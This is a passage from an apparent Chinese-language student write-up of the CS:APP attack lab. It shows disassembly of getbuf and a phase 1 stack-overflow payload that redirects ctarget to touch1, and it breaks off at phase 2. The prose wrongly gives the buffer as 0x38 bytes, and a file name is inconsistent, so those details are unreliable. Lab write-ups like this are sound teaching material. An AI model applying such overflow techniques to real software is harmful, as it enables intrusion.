  # attack-lab
## 要干啥？
利用漏洞改变./ctarget与./rtarget文件的输出。
## 怎么干？
运用objdump -d xxx来获取反汇编代码：
### ctarget:
 #### phase1
```Assembly
 00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 ac 03 00 00       	call   401b60 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 3d 20 00 01 	movl   $0x1,0x203d0e(%rip)        # 6054dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf e5 31 40 00       	mov    $0x4031e5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 cb 05 00 00       	call   401dad <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
 我们从`4017a8`可以看出`getbuf`的缓冲区为`0x38`字节，其程序返回地址就存在`%rsp+0x38`字节后面的8个字节中，所以我们只需要输入特定长度的字符并且覆盖返回地址即可。所以第一题的答案为：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
命名为：inp1.txt ，运行：
`./hex2raw < inp.txt | ./ctarget -q`
成功~
##### 注意点：
1. 用小端法存数据，这个在attacklab.pdf中也有说过
2. 想清楚0x28到底是几个字节，我一开始以为是28个字节，TAT.
 #### phase2
 先上c代码：
 ```c
 void touch2(unsigned val)

 {
 	vlevel = 2; /* Part of validation protocol */
 	if (val == cookie) {
 		printf("Touch2!: You called touch2(0x%.8x)\n", val);
 		validate(2);
 	} else {
 		printf("Misfire: You called touch2(0x%.8x)\n", val);
 		fail(2);
 }
 ```